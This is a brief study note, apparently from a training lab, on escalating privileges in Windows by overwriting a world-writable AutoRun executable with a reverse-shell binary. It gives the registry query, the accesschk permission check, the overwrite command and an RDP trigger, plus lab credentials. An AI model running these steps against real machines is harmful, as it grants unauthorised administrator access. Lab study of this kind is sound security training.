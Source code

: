 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
---
```


Similar vulnerabilities to [[CRON Jobs]]


1. Query the registry for AutoRun executables:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

2. Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

3. Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

4. Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!
```
rdesktop 10.10.253.199
```